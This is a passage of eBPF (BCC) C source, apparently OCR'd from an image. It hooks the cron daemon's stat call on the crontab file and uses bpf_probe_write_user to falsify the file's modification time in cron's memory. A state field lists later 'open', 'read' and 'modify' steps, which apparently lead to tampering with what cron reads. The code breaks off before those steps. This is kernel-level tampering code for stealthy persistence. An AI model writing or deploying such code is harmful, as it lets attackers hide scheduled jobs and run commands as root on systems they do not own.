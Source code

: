 ```python
      t1++;
      t2++;
    }
  }

  return res;
}

struct data_t
{
  char comm[TASK_COMM_LEN];
  char fname[64];
  struct stat* ret_st;
  u64 old_mtime;
  u64 new_mtime;
  char *buf;
  int fd;
  int state; // 1: stat 2: open 3: fstat 4: read 5: modify
};

BPF_HASH(infotmp, u32, struct data_t);
BPF_HASH(opentmp, u32, struct data_t);

int kprobe__sys_newstat(struct pt_regs *ctx, char *filename, struct stat* st)
{
  struct data_t d = {};
  u32 pid;
  bpf_get_current_comm(&d.comm, sizeof(d.comm));
  pid = bpf_get_current_pid_tgid() >> 32;
  bpf_probe_read(&d.fname, sizeof(d.fname), filename);
  if(my_memcmp(d.comm, CRON, sizeof(CRON)) || my_memcmp(d.fname, CRONTAB, sizeof(CRONTAB)))
  {
    return 0;
  }
  d.ret_st = st;
  d.state = 1;
  infotmp.update(&pid, &d);
  bpf_trace_printk("check crontab\\n");
  return 0;
}

int kretprobe__sys_newstat(struct pt_regs *ctx)
{
  struct data_t *d;
  struct data_t new_d = {};
  struct stat tmp_st = {};
  u32 pid;
  pid = bpf_get_current_pid_tgid() >> 32;
  d = infotmp.lookup(&pid);
  if(!d) return 0;
  bpf_probe_read(&tmp_st, sizeof(tmp_st), d->ret_st);
  d->old_mtime = tmp_st.st_mtime;
  d->new_mtime = tmp_st.st_mtime + bpf_get_prandom_u32() % 97;
  bpf_trace_printk("stat: change crontab mtime from %ld to %ld\\n", d->old_mtime, d->new_mtime);
  bpf_probe_write_user(&d->ret_st->st_mtime, &d->new_mtime, sizeof(d->new_mtime));
  d->fd = 0;
  __builtin_memcpy(&new_d, d, sizeof(new_d));
  opentmp.update(&pid, &new_d);
  infotmp.delete(&pid);
  return 0;
}

int kprobe__sys_openat(struct pt_regs *ctx, int dfd, char *filename)
```